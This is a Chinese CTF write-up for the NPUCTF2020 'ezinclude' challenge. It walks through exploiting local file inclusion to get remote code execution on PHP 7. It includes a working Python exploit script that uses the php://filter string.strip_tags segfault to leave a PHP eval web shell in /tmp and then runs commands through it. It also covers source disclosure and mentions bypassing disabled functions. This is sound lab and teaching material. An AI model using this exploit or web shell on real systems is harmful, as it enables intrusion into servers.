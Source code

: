 # \[NPUCTF2020]ezinclude

## \[NPUCTF2020]ezinclude

## 考点

* 从LFI到RCE
* 利用session.upload\_progress进行文件包含
* 利用php7 Segment Fault

## wp

打开直接显示`username/password error`

F12提示`md5($secret.$name)===$pass`

查看返回头给了HASH

```
Set-Cookie: Hash=fa25e54758d5d5c1927781a6ede89f8a; expires=Fri, 25-Feb-2022 05:50:05 GMT; Max-Age=3600000
```

这就相当于告诉了name和pass，访问`/?name=&pass=fa25e54758d5d5c1927781a6ede89f8a`跳转到404页面，用burp抓包可以看到未跳转的页面

![](<../../.gitbook/assets/image (10).png>)

访问flflflflag.php，发现是404，再抓包

![](<../../.gitbook/assets/image (30).png>)

是一个文件包含，直接尝试PHP伪协议`php://filter/read=convert.base64-encode/resource=index.php`

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
  echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
  </script>
';
}else{
  setcookie("Hash",md5($secret.$name),time()+3600000);
  echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

flflflflag.php

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
  die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

目录扫描可以找到dir.php

```php
<?php
var_dump(scandir('/tmp'));
?>
```

然后就没找到什么了，可能是LFI到RCE，对了，返回头写了PHP的版本是7.0

本来想用session.upload\_progress进行文件包含，可能是buu的限制没成功。那就换个思路，用[php7 Segment Fault](https://qftm.github.io/2020/03/15/LFI-PHPINFO-OR-PHP7-Segment-Fault/#toc-heading-19)

```php
import requests 
from io import BytesIO 
import re 

files = { 
    'file': BytesIO(b'<?php eval($_POST["cmd"]);?>') 
} 

url1 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=index.php' 

r = requests.post(url=url1, files=files, allow_redirects=False) 

url2 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=dir.php' 

r = requests.get(url2,allow_redirects=False) 
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content.decode()).group(0) 


print("++++++++++++++++++++++")
print(data) 
print("++++++++++++++++++++++") 


url3='http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=/tmp/'+data


data = { 'cmd':"phpinfo();" } 


r = requests.post(url=url3,data=data,allow_redirects=False) 

print(r.content)
```

我说怎么一直system不动，原来给ban了，所以用session.upload\_progress进行文件包含也是可以的。

![](<../../.gitbook/assets/image (3) (1) (1).png>)

写入shell后用蚁剑然后bypass

![](<../../.gitbook/assets/image (15) (1).png>)

## 小结

1. 从LFI到RCE
2. 代码执行先看看`phpinfo()`有没有东西
